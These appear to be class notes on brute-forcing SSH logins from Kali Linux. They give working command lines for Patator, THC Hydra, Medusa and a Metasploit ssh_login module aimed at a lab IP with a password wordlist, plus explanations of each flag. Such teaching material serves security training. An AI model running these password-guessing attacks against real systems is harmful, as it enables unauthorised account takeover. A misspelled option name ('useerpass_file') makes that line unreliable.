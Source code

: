## Class 15

------

### Reading: Brute-force attacks with Kali Linux

Brute-force search (exhaustive search) is a mathematical method, which difficulty depends on a number of all possible solutions

The definition "brute-force" is usually used in the context of hackers attacks when the intruder tries to find valid login/password to an account or service.

Tools possible to use brute-force attacks on SSH and web services available in:

+ Kali Linux
  + Patator
  + Medusa
  + THC Hydra
  + Metasploit
+ BurpSuite

#### Brute-force SSH

Example for test machine with IPaddress 192.168.60.50 and try to find a user test password using SSH. Popular passwords used from the standart dictionary rockyou.txt

##### Patator

`patator ssh_login host=192.168.60.50 user=test password=FILE0 0=/root/wordlist -x ignore:mesg=’Authentication failed’`

- **ssh_login** — is a necessary module;
- **host** — is our target;
- **user** — is user’s login, for which the password is found, or file contains many logins for multiple search;
- **password** — is a dictionary contains passwords;
- **-x ignore:mesg=’Authentication failed’** — is a command not to display a line containing that message.

##### THC Hydra

`hydra -V -f -t 4 -l test -P /root/wordlist ssh://192.168.60.50`

- **-V** — to display a couple login+password while the password mining;
- **-f** — is a stop as soon as the password for specified login will be found;
- **-P** — is a path to the password dictionary;
- **ssh://192.168.60.50** — is a service and victim IP address.

##### Medusa

`medusa -h 192.168.60.50 -u test -P /root/wordlist -M ssh -f -v 6`

- **-h** — is victim IP address;
- **-u** — is a login;
- **-P** — is a dictionary path;
- **-M** — is a module choice;
- **-f** — is stop as soon as the valid login/password couple is found;
- **-v** — is a setting of the message display on the monitor during the password mining.

##### Metasploit

Find the instrument for brute-force attack using SSH:

`search ssh_login`

Use module:

`use auxiliary/scanner/ssh/ssh_login`

Use command **show options** to review necessary parameters. For us these are:

- **rhosts** — is victim IP address;
- **rport** — is a port;
- **username** — is SSH login;
- **useerpass_file** — is a dictionary path;
- **stop_on_success** — is a stop as soon as login/password couple will be found;
- **threads** — is a number of flows.

The indication of necessary parameters is using «set» command.

```
set rhosts 192.168.60.50
set username test
set userpass_file /root/wordlist
set stop_on_success yes
set threads 4
set rport 22
```

When the necessary parameters are indicated bring in the command «run» and wait.